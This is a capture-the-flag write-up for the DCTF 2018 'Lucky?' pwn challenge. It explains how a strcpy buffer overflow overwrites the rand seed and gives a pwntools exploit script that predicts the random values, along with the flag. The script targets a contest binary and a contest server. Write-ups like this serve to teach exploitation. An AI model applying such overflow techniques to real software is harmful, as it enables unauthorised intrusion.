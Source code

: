 # **Lucky?**

#### tag : pwn, bof, random

-----------------------------------------------

#### Description

>How lucky are you?

>Target: 167.99.143.206 65031

>Bin: https://dctf.def.camp/dctf-18-quals-81249812/lucky

-----------------------------------------------

#### Solution

I can find there is input string will overwrite `&dest` by `strcpy` so that there is bof vulnerability in binary. But because this binary is secured by `PIE`, there is no use of overwriting ret address.

~~~

LODWORD(v9) = std::operator<<<std::char_traits<char>>(&std::cout, "What is your name?");
std::ostream::operator<<(v9, &std::endl<char,std::char_traits<char>>);
std::getline<char,std::char_traits<char>,std::allocator<char>>(&std::cin, &v27);
LODWORD(v10) = std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::c_str(&v27);
strcpy(&dest, v10);
srand(v35);

~~~

Well, I can focus `v35` which is random seed in question. `v35` can be overwrited by inputting name.

~~~

char dest; // [sp+260h] [bp-2E0h]@7
char v29; // [sp+2D0h] [bp-270h]@7
char v30; // [sp+2F0h] [bp-250h]@1
__int64 v31; // [sp+3F0h] [bp-150h]@1
unsigned int seed[2]; // [sp+4F8h] [bp-48h]@1
int v33; // [sp+514h] [bp-2Ch]@9
int v34; // [sp+518h] [bp-28h]@9
unsigned int v35; // [sp+51Ch] [bp-24h]@7

~~~

I make `random.c` to get rand number for fixed seed. I set seed to `0x61616161`. And I can get `randmal` which is result of rand.

Here is my solution.

```python

#!/usr/bin/env python
from pwn import *

### DEBUGGGING ###

DEBUG = True

if DEBUG:
    r = process('lucky')
    timeout = 0.1

#    gdb.attach(r,'''
#    b main
#    ''')
    context.log_level = 'debug'

else:
    r = remote('167.99.143.206',65031)
    timeout = 0.3

def ss(s):
    sleep(timeout)
    return r.sendline(s)

def rr(s):
    sleep(timeout)
    return r.recvuntil(s)

### ADDRESS ###
### PAYLOAD ###

rd = (open('randmal', 'r').read()).split('\n')[:-1]
offset = 0x2e0

### EXPLOIT ###

def main():
    rr('?\n')
    ss('a' * offset)

    for i in range(0,100):
        rr(']\n')
        ss(rd[i])

    r.interactive()

if __name__ == '__main__':
    try:
        main()
    except:
        log.info('exception occur')


```

**DCTF{8adadb46b599a58344559e009bc167da7f0e65e64167c27d3192e8b6df073eaa}**
